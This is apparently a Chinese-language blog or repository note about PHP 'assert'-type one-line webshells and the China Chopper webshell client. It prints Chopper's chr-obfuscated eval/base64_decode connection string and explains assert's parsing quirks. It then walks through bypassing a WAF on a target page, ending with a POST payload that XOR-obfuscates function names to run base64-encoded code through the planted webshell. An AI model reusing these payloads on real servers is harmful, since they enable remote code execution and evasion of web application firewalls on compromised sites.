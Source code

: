新版菜刀无法连接assert类型的一句话,因为新版菜刀将连接方式改成了:

```
chopperPassValue=$xx=chr(98).chr(97).chr(115).chr(101).chr(54).chr(52).chr(95).chr(100).chr(101).chr(99).chr(111).chr(100).chr(101);$yy=$_POST;@eval($xx($yy[z0]));
```

相当于:



```
$xx="base64_decode"
@eval($xx($_POST[z0]))
```

也即新版菜刀这里有两个以上的分号导致无法连接assert类型的一句话

link:[http://joychou.org/index.php/web/caidao-20141213-does-not-support-php-assert-oneword-backdoor-analysis.html](http://joychou.org/index.php/web/caidao-20141213-does-not-support-php-assert-oneword-backdoor-analysis.html)

 2011年前的菜刀支持assert类型的webshell,2014年以后的菜刀不支持assert类型的webshell

3)实例

a)assert(phpinfo());

或

b)assert("phpinfo()");

或

c)assert("phpinfo();");

上面3个都是可以的,因为PHP函数中的参数如果是字符串可以不加双引号,但是:

a)assert(phpinfo();)不可执行,因为assert后面要接一个表达式,phpinfo();不是表达式,是一条php语句,但是换成assert("phpinfo();")就可以执行了,这样"phpinfo();"当作是一个表达式,但是"phpinfo();print_r(666);"[assert的参数为字符串时字符串的引号中有多个分号时]不被当作表达式

b)assert("echo 1")是不可执行的,因为assert不能执行echo,eval("echo 1")是可以的,assert类型的webshell不能用echo来检测,可以用print_r(1),也即assert("print_r(1)")或assert("print_r(1);")都是可以的

c)assert("print_r(1);print_r(2);")或assert("print_r(1);print_r(2)")都只能执行print_r(1),assert只会执行到第一个分号内的语句

<br>

**0x01 一个waf的绕过过程**

1. waf过滤大部分关键字,eg.base64_decode,“,system等

2.尝试用如下方法绕过[uri=mytag_js.php?aid=9527],是个assert类型的webshell,通过echo不能执行,print_r可以执行判断出不是eval类型webshell

3.考虑有可能是新版菜刀不支持assert类型的webshell连接,换成老版本菜刀依然失败,换成下面过waf的菜刀依然失败[http://joychou.org/index.php/web/make-own-chopper-which-can-bypass-dog.html](http://joychou.org/index.php/web/make-own-chopper-which-can-bypass-dog.html)

 4.hackbar中post:[下面假设密码是x]

```
x=eval("echo 1;$one=(chr(19)^chr(114)).(chr(19)^chr(96)).(chr(19)^chr(96)).(chr(19)^chr(118)).(chr(19)^chr(97)).(chr(19)^chr(103));$three=(chr(19)^chr(113)).(chr(19)^chr(114)).(chr(19)^chr(96)).(chr(19)^chr(118)).(64).(chr(19)^chr(76)).(chr(19)^chr(119)).(chr(19)^chr(118)).(chr(19)^chr(112)).(chr(19)^chr(124)).(chr(19)^chr(119)).(chr(19)^chr(118));echo $_POST[nihao];")&amp;nihao=cGhwaW5mbygp
```
